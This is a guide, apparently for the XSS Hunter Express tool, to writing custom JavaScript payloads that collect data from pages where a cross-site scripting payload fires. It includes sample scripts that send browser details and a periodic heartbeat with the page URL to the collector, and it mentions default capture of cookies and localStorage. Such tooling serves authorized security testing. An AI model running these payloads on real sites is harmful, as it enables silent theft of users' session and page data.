 # Custom Payload Creation Guide

## Overview

XSS Hunter Express allows you to create custom JavaScript payloads that collect specific data from compromised pages. This guide explains how to create your own payloads and use the available APIs.

## Quick Start

Custom payloads are JavaScript files that can collect additional data beyond the default XSS Hunter collection (cookies, localStorage, DOM, screenshot). You have two main functions available:

1. **`addCustomData()`** - For initial data collection (runs before payload fires)
2. **`sendBackgroundData()`** - For continuous monitoring (runs after payload fires)

## API Functions

### addCustomData(dataObject)

Adds custom data to the initial XSS payload fire report.

**When to use:** For one-time data collection that should be included in the initial report.

**Required structure:**
```javascript
{
  title: String,  // REQUIRED: Display name for this data
  data: Object    // REQUIRED: Any JSON-serializable data
}
```

### sendBackgroundData(dataObject) 

Sends additional data after the initial payload has fired.

**When to use:** For continuous monitoring, periodic updates, or delayed data collection.

**Required structure:**
```javascript
{
  title: String,  // REQUIRED: Display name for this data  
  data: Object    // REQUIRED: Any JSON-serializable data
}
```

**Important:** `sendBackgroundData()` requires `window.xssPayloadId` to be available (set automatically after initial payload fires).

## Simple Examples

### Example 1: Basic Custom Data Collection

```javascript
// simple_user_info.js
// Collect basic user information with the initial payload

window.addCustomData({
  title: "User Information",
  data: {
    timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
    language: navigator.language,
    screenSize: screen.width + 'x' + screen.height,
    timestamp: new Date().toISOString()
  }
});
```

### Example 2: Background Monitoring

```javascript
// simple_heartbeat.js
// Send periodic updates after initial payload fires

setTimeout(function waitForPayload() {
  if (!window.xssPayloadId) {
    setTimeout(waitForPayload, 1000);
    return;
  }
  
  // Send heartbeat every 5 seconds
  setInterval(function() {
    window.sendBackgroundData({
      title: "Heartbeat",
      data: {
        status: "Page active",
        url: location.href,
        time: new Date().toISOString()
      }
    });
  }, 5000);
}, 2000);
```

## Requirements & Best Practices

### Requirements
- Both `title` and `data` fields are **mandatory**
- `title` must be a non-empty string
- `data` must be JSON-serializable (no functions, undefined, or circular references)

### Best Practices
✅ **DO:**
- Keep payloads focused on specific data collection goals
- Use try-catch blocks to handle errors gracefully
- Truncate long strings to avoid excessive data
- Test payloads locally before deployment
- Use descriptive titles for easy identification

❌ **DON'T:**
- Create infinite loops or memory leaks
- Send excessive data that could crash the browser
- Include non-serializable objects (functions, DOM elements)
- Forget error handling

## Using Custom Payloads

1. **Create your payload:** Write JavaScript code following the examples above
2. **Add and activate the script:** Use the Payload Console within the UI
3. **Automatic inclusion:** Payloads will be included in your probe and loaded whenever XSS executes
4. **View results:** Check the admin panel under "Custom Scripts Data" in the XSS report

## Troubleshooting

**Data not appearing?**
- Verify both `title` and `data` fields are present
- Check browser console for JavaScript errors
- Ensure data is JSON-serializable
- For background data, confirm `window.xssPayloadId` exists

**Background monitoring not working?**
- Make sure to wait for `window.xssPayloadId` before calling `sendBackgroundData()`
- Check that the initial payload fired successfully
- Verify network connectivity remains active

## Security Notice

These payloads are for authorized security testing only. Always:
- Obtain proper authorization before testing
- Follow responsible disclosure practices
- Protect any collected sensitive data
- Comply with applicable laws and regulations